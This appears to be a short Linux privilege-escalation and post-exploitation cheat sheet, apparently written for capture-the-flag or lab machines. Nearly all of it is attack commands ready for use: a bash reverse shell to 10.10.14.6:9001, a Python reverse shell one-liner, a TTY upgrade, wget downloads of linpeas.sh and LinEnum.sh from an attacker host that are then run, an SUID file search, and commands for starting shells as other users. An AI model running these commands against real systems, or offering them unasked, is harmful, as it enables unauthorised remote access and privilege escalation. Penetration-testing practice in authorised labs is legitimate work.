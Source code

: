 ```sudo -l```

```whoami```

```groups```

### Bash based reverse shell

```
bash -c 'bash -i >& /dev/tcp/10.10.14.6/9001 0>&1'
```

### Python based reverse shell

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' &
```


### Upgrade Shell to TTY

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


# Searching through files

## Log Files

system log files
```
cat /var/www/syslog
```

## Search specific word

```grep -n "WORD" /path/to/file(s)```

-n lists line number

-r - recursively check all files matching path

-B # - Prints this many lines before

-A # - Prints this many lines after

## Search for strings in file (or filesystem)

```
sudo strings /path/to/file
```


# LinPEAS

https://github.com/carlospolop/PEASS-ng/releases

Only need linpeas.sh

```
wget http://10.10.14.6:800/linpeas.sh
```
```
./linpeas.sh > peas.txt
```

# LinEnum

```
wget http://10.10.14.6:800/LinEnum.sh
```
```
./LinEnum.sh -t -r enum.txt
```
# Search for SUID Bit files

SUID Bit - User executes the file with permissions of the file owner

```
find / -perm -u=s -type f 2>/dev/null
```


## Run command as specific user
```
sudo -u USER command
```

## Start shell as specific user
```
sudo -u USER bash -i
```
